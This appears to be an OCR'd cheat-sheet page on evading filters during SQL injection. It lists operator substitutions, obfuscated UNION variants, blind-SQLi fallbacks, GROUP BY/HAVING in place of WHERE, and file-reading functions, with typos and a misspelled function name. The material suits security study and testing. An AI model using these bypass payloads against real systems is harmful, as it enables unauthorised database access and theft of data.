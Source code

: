 > Then when the application receives the request, it will decode the contents and trigger the malicious request

### Replaced Keywords
```bash
Booleans > AND, OR
- AND = &&
- OR  = ||
# only in MySQL and MSSQL
WHERE ID=x && 1=1
WHERE ID=x || 1=1

# If && and || are filtered, then u must use 'UNION'
```
```bash
UNION > Simple case
# We can use many variants to elude these kind of filters:

UNION(SELECT 'VALUES'...) &&
UNION ALL SELECT ...
UNION DISTINCT SELECT ...
/*!00000 UNION*//*!00000 SELECT*/ ...
```

WHen the **UNION** is filtered, we must switch to blind SQLi exploitation:
```bash
(SELECT id FROM users LIMIT 1)='5 ...
```

In Oracle: 

→ https://docs.oracle.com/cd/B28359_01/server.111/b28286/queries004.htm#SQLRF52323

- We can use **INTERSECT** or **MINUS** operators


WHERE, GROUP, LIMIT, HAVING:

- Useful keywords to select a specific entry

If the filter blocks **WHERE** keyword, we can alternatively use **GROUP BY** + **HAVING**:
```bash
SELECT id FROM users GROUP BY id HAVING id='5 ...
```


If **GROUP BY** is filtered, we must revert to blind SQLi:
```bash
AND length((select first char)='a') //0/1 > true/false
```


If **HAVING** is filterd, in this case we must leverage functions like **GROUP_CONCAT**, functions that manipulates strings, etc. Of course, all of this is blind!


If **SELECT** is filtered, The exploitation can vary and really depends upon the injection point.

You need to use functions that manipulate FILES such as:
```bash
load_files //in mysql
```
